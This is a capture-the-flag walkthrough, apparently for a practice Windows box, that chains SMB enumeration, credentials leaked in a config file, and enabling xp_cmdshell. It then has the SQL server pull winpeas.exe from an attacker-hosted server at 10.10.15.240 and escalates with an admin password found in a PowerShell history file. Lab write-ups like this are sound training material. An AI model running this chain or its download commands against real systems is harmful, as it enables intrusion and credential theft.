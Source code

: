 # Walkthrough Notes

---

## Initial Recon

First I started off by doing a routine recon scan.

![Recon Scan](./images/ee75db9e0acb66538378ea0ba0cbd094.png)

- First I notice there is an **ms-sql server** running on port `1433`.
- From the script scan I also notice the Nmap scan revealed that an SMB client was actively running as `Ill`.

---

## SMB Enumeration

Next I run:

```bash
smbclient -L //IP
```

to reveal the shares on the SMB client.

![SMB Shares](./images/0a7df3bc2a4f2c5f1c7fc58eac3a57be.png)

I notice the `backups` share is a non-administrator share, so I run:

```bash
smbclient -N //IP/backups
```

to investigate what's inside.

The command reveals a `prod.dtsConfig` file. I use the `get` command to download it and inspect it locally.

![prod.dtsConfig](./images/a524bbd05f1d0baa76fa72bc76b2f8b2.png)

The file contained the SQL database credentials:

- **User:** `sql_svc`  
- **Pass:** `M3g4c0rp123`

---

## SQL Database Access

I installed `mssqlclient.py` and used the credentials to log into the SQL server:

![SQL Login](./images/9e102fd96cf88a138de8643a57d23e96.png)

This gave regular user-level permissions.

Trying to run `xp_cmdshell` failed due to insufficient permissions. So I enabled it using:

```sql
sp_configure 'Show advanced options', 1;
RECONFIGURE;
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Once enabled, I could upload and run apps on the server.

---

## Privilege Escalation - WinPEAS

I downloaded `winpeas.exe` locally and spun up a web server:

```bash
python3 -m http.server 8000
```

Then, on the SQL server I ran:

```sql
EXEC xp_cmdshell 'powershell -Command "Invoke-WebRequest -Uri http://10.10.15.240:8000/winpeas.exe -OutFile C:\Users\Public\winpeas.exe"';
```

![WinPEAS Request](./images/6c2dba67b1166381724b44f38fa12976.png
)

After the file was downloaded:

![WinPEAS Response](./images/25c44ade4d60daac997fe0d67b47bfc4.png)

I ran WinPEAS and saved output to a file:

```sql
EXEC xp_cmdshell 'C:\Users\Public\winpeas.exe > C:\Users\Public\peasout.txt';
```

Then read it with:

```sql
EXEC xp_cmdshell 'type C:\Users\Public\peasout.txt';
```

---

## Finding PowerShell History

While parsing `winpeas` output, I found a PowerShell history file:

```sql
EXEC xp_cmdshell 'type C:Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt';
```

![ConsoleHost History](./images/05db0d4d8678f1529714460b9bd2bfe9.png
)

It revealed:

- **Admin user:** `administrator`
- **Admin password:** `MEGACORP_4dm1n!!`

---

## Accessing Admin SMB Shares

I tried these credentials on the SQL database but had no luck.  
However, they **worked with `smbclient`**, granting access to all shares.

I navigated to:

- `Users/Administrator/Desktop` for the root flag
- `Users/sql_svc/Desktop` for the user flag
